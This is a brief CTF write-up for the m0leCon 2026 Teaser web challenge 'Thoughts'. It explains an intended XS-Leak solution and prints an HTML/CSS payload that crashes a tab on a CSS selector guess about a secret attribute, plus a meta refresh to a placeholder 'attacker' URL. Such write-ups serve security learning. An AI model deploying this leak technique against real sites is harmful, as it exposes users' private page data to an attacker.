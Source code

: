 # m0leCon CTF 2026 Teaser

## [web] Thoughts (9 solves)

Share your thoughts!

Author: Sebastiano Sartor <@sebsrt>

## Solution

Unfortunately the challenge was put up too quickly and was not properly tested, enabling solutions such as: https://gist.github.com/terjanq/3e866293610aa6c5629df4353e5d87d9

Intended solution:

TLDR:
XS Leak using css contidional tab crash + meta redirect

```html
<style>
    :where(body[secret^="GUESS"]) .z {float: inline-start;  }
    * {text-wrap: pretty; }
</style><a>1</p><dir><legend class="z"></legend><details>
<meta http-equiv="refresh" content="0; URL='attacker'" />
```

if the tab crashes when the condition is matched, the redirect doesn't happen.

## Exploit

[here](m0lecon-2026-teaser/thoughts/solve)